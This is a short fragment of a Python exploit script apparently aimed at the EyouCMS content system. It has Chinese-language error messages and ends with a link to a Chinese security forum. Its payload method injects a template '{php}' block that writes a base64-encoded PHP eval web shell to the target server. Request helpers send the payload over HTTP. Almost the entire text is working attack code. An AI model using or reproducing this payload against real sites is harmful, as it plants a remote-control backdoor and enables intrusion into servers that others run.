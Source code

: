 ```python
    def createpyload(self):
        short = base64.b64encode("<php eval($_REQUEST[%s]);?>"%self.password)
        file = self.output
        payload = {
            "{php}1{/php}":"{php}file_put_contents('./%s.php',base64_decode('%s'));{/php}"%(file,short)
        }
        return base64.b64encode(json.dumps(payload))
    def request(self,url,method="get"):
        respone = None
        if(not self.session):
            self.session = requests.Session()
        if(method == "get"):
            try:
                respone = self.session.get(url=url,headers=self.headers)
            except requests.exceptions.ConnectTimeout:
                print "[-] 请求%s超时"%url
                return
            except requests.exceptions.ConnectionError:
                print "[-] 请求%s无效"%url
                return
            return respone
        elif(method == "post"):
            try:
                respone = self.session.post(url=url,data=self.requestsdata,headers=self.headers)
            except requests.exceptions.ConnectTimeout:
                print "[-] 请求%s超时"%url
                return
            except requests.exceptions.ConnectionError:
                print "[-] 请求%s无效"%url
                return
        return respone
if __name__ == "__main__":
    headers = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:70.0) Gecko/20100101 Firefox/70.0",
        "X-Requested-With":"XMLHttpRequest"
    }
    Eyoucms(headers)
```

**参考链接**

https://bbs.ichunqiu.com/thread-56458-1-1.html